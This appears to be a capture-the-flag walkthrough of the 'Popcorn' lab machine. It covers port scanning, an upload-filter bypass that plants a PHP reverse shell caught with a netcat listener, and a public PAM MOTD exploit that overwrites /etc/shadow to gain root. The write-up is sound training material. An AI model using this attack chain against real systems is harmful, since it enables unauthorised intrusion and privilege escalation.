

**NMAP:**
```
root@37f72653a832:/# nmap -sC -sV -T4 -p- 10.10.10.6
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-14 23:52 UTC
Nmap scan report for 10.10.10.6
Host is up (0.019s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 3e:c8:1b:15:21:15:50:ec:6e:63:bc:c5:6b:80:7b:38 (DSA)
|_  2048 aa:1f:79:21:b8:42:f4:8a:38:bd:b8:05:ef:1a:07:4d (RSA)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
|_http-server-header: Apache/2.2.12 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.63 seconds
```
**GOBUSTER:**
```
/index (Status: 200)
/index.html (Status: 200)
/test (Status: 200)
/test.php (Status: 200)
/torrent (Status: 301)
/rename (Status: 301)
```
Navigating to `/torrent` reveals a torrent hoster. Here I can create an account. Once logged in I can upload a torrent file. 

Now once the torrent file is uploaded I can click on `Edit this torrent` to upload a screenshot. This is where I will upload a reverse php shell and will intercept the request using Burpsuite to bypass the upload filter. 

I change the Content type of the request from `application/octet-stream` to `image/jpeg` and then forward the request. I get a success message that file was uploaded



Now going back to the torrent uploader the screenshot section now displays a messsage like `Image File Not Found!`. Clicking on the message triggers the shell and opens up the reverse connection. I get a shell as `www-data`
```
root@37f72653a832:/# nc -lvnp 9999
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 10.10.10.6.
Ncat: Connection from 10.10.10.6:53362.
whoami
www-data
```
From here I can read the `user.txt` flag
```
www-data@popcorn:/home/george$ cat user.txt
5e36a929398ecc5d5c110f2d865cf136
```
After doing some enumeration around the box I find that it is running an outdated version of PAM. I confirm this using the command below
```
www-data@popcorn:/home/george/.cache$ dpkg -l | grep pam
dpkg -l | grep pam
ii  libpam-modules                      1.1.0-2ubuntu1                    Pluggable Authentication Modules for PAM
ii  libpam-runtime                      1.1.0-2ubuntu1                    Runtime support for the PAM library
ii  libpam0g                            1.1.0-2ubuntu1                    Pluggable Authentication Modules library
ii  python-pam                          0.4.2-12ubuntu3                   A Python interface to the PAM library
```
Checking Exploit Database there is [this exploit](https://www.exploit-db.com/exploits/14339) that can be used to escalate privileges.
```
www-data@popcorn:/dev/shm$ bash 14339.sh
bash 14339.sh
[*] Ubuntu PAM MOTD local root
[*] SSH key set up
[*] spawn ssh
[+] owned: /etc/passwd
[*] spawn ssh
[+] owned: /etc/shadow
[*] SSH key removed
[+] Success! Use password toor to get root
Password: toor

root@popcorn:/dev/shm#
```
From here I can read the `root.txt` file
```
root@popcorn:~# cat root.txt
cat root.txt
f122331023a9393319a0370129fd9b14
```


